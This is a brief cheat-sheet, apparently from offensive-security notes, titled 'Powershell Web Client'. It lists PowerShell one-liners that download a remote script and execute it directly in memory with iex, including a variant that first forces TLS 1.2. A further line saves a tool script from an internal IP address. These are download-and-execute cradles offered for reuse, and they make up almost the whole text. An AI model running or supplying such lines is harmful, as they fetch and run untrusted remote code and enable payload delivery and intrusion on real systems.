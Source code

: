 # Powershell Web Client

## Powershell Webclient

### Download and execute into memory

```csharp
iex((new-object net.webclient).downloadstring('http://URL/file.something'))
```

### Download and save

```csharp
iwr("http://10.110.0.66/tools/file.ps1") -OutFile file.ps1
```

### TLS \(in case of https ...\)

```csharp
 [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex((new-object net.webclient).
downloadstring('http://URL/file.something'))
```

